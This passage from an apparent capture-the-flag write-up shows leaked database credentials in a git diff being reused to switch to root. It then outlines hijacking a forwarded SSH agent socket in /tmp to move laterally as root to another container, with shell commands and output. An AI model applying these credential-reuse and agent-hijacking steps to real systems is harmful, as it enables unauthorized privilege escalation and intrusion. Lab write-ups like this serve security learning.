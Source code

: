 ```bash
+		</dependency>
 
 	</dependencies>
 
diff --git a/src/main/resources/application.properties b/src/main/resources/application.properties
index 4cbc10b..41adeb0 100644
--- a/src/main/resources/application.properties
+++ b/src/main/resources/application.properties
@@ -1,7 +1,7 @@
 server.port=8080
 spring.datasource.url=jdbc:mysql://localhost:3306/db
-spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.username=root
+spring.datasource.password=g_xEN$ZuWD7hJf2G
 server.address=0.0.0.0
 
 spring.jpa.properties.hibernate.dialect = org.hibernate.dialect.MySQL5InnoDBDialect
```


If we use keneki's 7^Grc%C\7xEQ?tb4 password from that, we su to root on the kaneki-pc finally but it's not over just yet.

```bash
kaneki_pub@kaneki-pc:/tmp$ su 
Password: 
root@kaneki-pc:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@kaneki-pc:~# cat root.txt 
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```
We remember seeing these ssh related files in the /tmp folder and the random ssh connection to 172.18.0.1 as root from our enumeration before on kaneki-pc. After staring at it for awhile we realize this looks like ssh agent forwarding and we should be able to hijack it since we're now root on this box.

```bash
root@kaneki-pc:/tmp# ls -lah
total 32K
drwxrwxrwt 1 root       root       4.0K Oct 20 05:36 .
drwxr-xr-x 1 root       root       4.0K Oct 20 00:05 ..
drwx------ 1 root       root       4.0K Dec 16  2018 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4.0K Dec 16  2018 ssh-FWSgs7xBNwzU
drwx------ 2 kaneki_adm kaneki_adm 4.0K Oct 20 05:36 ssh-GGoXs4gR36
drwx------ 1 kaneki_pub kaneki     4.0K Dec 16  2018 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 Oct 20 00:05 sshd-stderr---supervisor-r1qP83.log
-rw------- 1 root       root          0 Oct 20 00:05 sshd-stdout---supervisor-kotUsu.log
```
These two articles here explain this trick and the issues with agent forwarding well, https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/ and https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/ as we can replicate that attack from stealing the ssh-agent socket then login with no password as root on the last docker container.
